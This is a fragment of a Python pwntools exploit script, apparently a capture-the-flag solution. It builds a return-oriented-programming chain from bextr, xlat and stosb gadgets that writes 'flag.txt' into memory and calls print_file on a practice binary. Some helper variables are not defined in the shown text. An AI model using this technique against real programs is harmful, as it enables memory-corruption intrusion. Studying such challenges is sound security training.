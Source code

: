 ```python
# you can view the hex in window 'Hex View-1' in IDA_PRO to find the bytes you want 
char_addr = [0x4003C4, 0x4003C1, 0x4003D6, 0x4003CF, 0x4003C9, 0x4003D8, 0x400246, 0x4003D8]
# ASCII value of each byte
char = [ord(x) for x in 'flag.txt']

print(char)

payload = cyclic(40)
payload += p64(rdi) + p64(write_addr)			# make rdi point to address needed to write

# make 'f' into 0x601038
# gdb tell us that after gadget for rdi, rax should be 0xb, so we minus 0xb to make rax = 0
payload += p64(bextr) + p64(0x2000) + p64(zero_seg - 0x3EF2 - 0xb)		# start = 0, len = 0x20, equals mov rbx, rcx
payload += p64(xlat)
payload += p64(bextr) + p64(0x2000) + p64(char_addr[0] - 0x3EF2)
payload += p64(xlat)
payload += p64(stosb)

for i in range(7):
	payload += p64(bextr) + p64(0x2000) + p64(char_addr[i + 1] - char[i] - 0x3EF2)		# to get the right value
	payload += p64(xlat)
	payload += p64(stosb)

payload += p64(rdi) + p64(write_addr)

payload += p64(elf.plt['print_file'])

io.sendlineafter(b'> ', payload)
io.interactive()
```
